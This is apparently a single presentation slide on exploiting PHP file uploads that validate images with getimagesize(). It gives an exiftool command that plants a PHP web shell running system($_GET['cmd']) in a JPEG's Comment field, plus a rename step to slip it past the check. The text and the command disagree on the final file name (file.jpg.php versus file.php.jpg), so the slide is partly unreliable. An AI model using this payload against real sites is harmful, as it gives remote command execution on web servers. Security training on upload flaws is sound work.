

# Exploit php getimagesize()
For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php. You can do this with gimp or exiftools:

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
13